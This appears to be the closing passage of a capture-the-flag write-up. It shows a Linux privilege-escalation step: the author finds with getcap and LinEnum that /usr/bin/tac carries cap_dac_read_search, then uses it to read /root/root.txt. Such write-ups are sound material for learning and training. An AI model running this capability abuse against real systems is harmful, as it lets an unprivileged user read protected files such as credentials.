 ```
bash-4.4$ /sbin/getcap app-dev/logMonitor
bash-4.4$ /sbin/getcap app-dev/v0.1/logMonitor-0.1
v0.1/logMonitor-0.1 = cap_dac_read_search+ei
```

So our "versioned" logMonitor has something called `cap_dac_read_search+ei`. Can
we modify the program to read `root.txt` and set this capability?

```
bash-4.4$ /sbin/setcap cap_dac_read_search+ei logMonitor
unable to set CAP_SETFCAP effective capability: Operation not permitted
```

Hm.. okay, so that makes sense that we can't as a non-privedged user grant super
powers to any file we wish, but I wonder then.. if there are other files lurking
around on the system which have these same elevated capabilities we can take
advantage of?

Eventually with the help of the latest version of the `LinEnum.sh` script, we
discover this file..

```
bash-4.4$ /sbin/getcap /usr/bin/tac
/usr/bin/tac = cap_dac_read_search+ei
```

```
bash-4.4$ man tac
TAC(1)                           User Commands                           TAC(1)

NAME
       tac - concatenate and print files in reverse

SYNOPSIS
       tac [OPTION]... [FILE]...

DESCRIPTION
       Write each FILE to standard output, last line first.

```

Don't know if there is a way to actually get a `root` shell, but we're able to
read any file we want on the system now..

```
bash-4.4$ tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6
```

### REFERENCES

```
https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html
https://netsec.ws/?p=309
https://packetstorm.foofus.com/papers/attack/exploiting_capabilities_the_dark_side.pdf
```
